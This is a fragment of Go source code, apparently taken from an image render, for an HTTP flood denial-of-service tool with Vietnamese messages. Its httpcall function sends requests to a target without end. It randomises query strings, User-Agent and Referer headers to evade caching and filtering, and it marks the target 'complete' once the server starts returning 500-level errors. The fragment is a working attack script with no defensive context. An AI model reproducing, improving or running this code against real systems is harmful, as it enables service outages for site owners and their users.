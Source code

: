 	ctlc := make(chan os.Signal)
	signal.Notify(ctlc, syscall.SIGINT, syscall.SIGKILL, syscall.SIGTERM)
	<-ctlc
	fmt.Println("\r\n-- Đang bị gián đoạn --        \n")
}

func httpcall(url string, host string, data string, headers arrayFlags, s chan uint8) {
	atomic.AddInt32(&cur, 1)

	var param_joiner string
	var client = new(http.Client)

	if strings.ContainsRune(url, '?') {
		param_joiner = "&"
	} else {
		param_joiner = "?"
	}

	for {
		var q *http.Request
		var err error

		if data == "" {
			q, err = http.NewRequest("GET", url+param_joiner+buildblock(rand.Intn(7)+3)+"="+buildblock(rand.Intn(7)+3), nil)
		} else {
			q, err = http.NewRequest("POST", url, strings.NewReader(data))
		}

		if err != nil {
			s <- callExitOnErr
			return
		}

		q.Header.Set("User-Agent", headersUseragents[rand.Intn(len(headersUseragents))])
		q.Header.Set("Cache-Control", "no-cache")
		q.Header.Set("Accept-Charset", acceptCharset)
		q.Header.Set("Referer", headersReferers[rand.Intn(len(headersReferers))]+buildblock(rand.Intn(5)+5))
		q.Header.Set("Keep-Alive", strconv.Itoa(rand.Intn(10)+100))
		q.Header.Set("Connection", "keep-alive")
		q.Header.Set("Host", host)

		// Overwrite headers with parameters

		for _, element := range headers {
			words := strings.Split(element, ":")
			q.Header.Set(strings.TrimSpace(words[0]), strings.TrimSpace(words[1]))
		}

		r, e := client.Do(q)
		if e != nil {
			fmt.Fprintln(os.Stderr, e.Error())
			if strings.Contains(e.Error(), "socket: Quá nhiều tệp mở") {
				s <- callExitOnTooManyFiles
				return
			}
			s <- callExitOnErr
			return
		}
		r.Body.Close()
		s <- callGotOk
		if safe {
			if r.StatusCode >= 500 {
				s <- targetComplete
			}
		}
	}
